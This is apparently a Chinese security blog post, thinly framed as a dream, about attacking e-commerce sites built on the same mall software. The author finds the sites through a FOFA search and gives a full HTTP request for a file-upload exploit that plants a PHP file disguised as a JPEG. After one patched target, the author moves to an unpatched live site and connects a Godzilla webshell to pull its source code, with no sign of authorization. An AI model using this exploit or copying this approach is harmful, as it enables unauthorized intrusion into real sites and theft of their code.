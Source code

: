 ![](https://mmbiz.qpic.cn/mmbiz_png/QtaE6uFmibPlu8MibauV25IibJuxb8nN4hV83oeYN8a0GVZxxto2picHFUoFQOFmA54d6LqmsrzfUDv152PwGJxbwQ/640?wx_fmt=png&from=appmsg "")  
# fofa启动  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QtaE6uFmibPlu8MibauV25IibJuxb8nN4hVrpY9wiap5ztv0icKj1jichNnuF76IGvd7mabV5MvjmbdwUkTNhy0iaBftQ/640?wx_fmt=png&from=appmsg "")  
# 翻看几个目标发现确实大部分是同类型网站(除UI不同)，在网上寻找系统信息，发现使用的是某商城系统，这套系统有披露过个前台文件上传  
### 第二章 梦境中的漏洞复现  
  
梦中手指不受控制地输入了测试POC：  
```
POST /Login/shangchuan HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Cache-Control: max-age=0
Connection: keep-alive
Content-Length: 197
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryBP56KuZOdlY4nLGg
Host: {{ip:port}}
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="126", "Google Chrome";v="126"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
sec-fetch-user: ?1
------WebKitFormBoundary03rNBzFMIytvpWhy
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: image/jpeg
<?php phpinfo();?>
------WebKitFormBoundary03rNBzFMIytvpWhy--
```  
  
但系统却像被无形屏障保护着返回302，应该是修复了  
# 于是乎只能转头看向其它目标，看能不能找到个没修的，还真让我发现有一个  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QtaE6uFmibPlu8MibauV25IibJuxb8nN4hVMCzUdg5QP1elNxZLvOavusOGeIz2Itv62agOOlVUSiblu1A7XkvVDaQ/640?wx_fmt=png&from=appmsg "")  
### 第三章 梦境突破  
  
随着哥斯拉 成功连接，整个系统的源码像数据洪流般涌入我的意识。梦中的我竟开始自动审计代码：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QtaE6uFmibPlu8MibauV25IibJuxb8nN4hVYfTnTKQRNmXPib8k3dr7oicIWo0JficgyMnsz6ucjTV1LRG246jGicY8fg/640?wx_fmt=png&from=appmsg "")  
  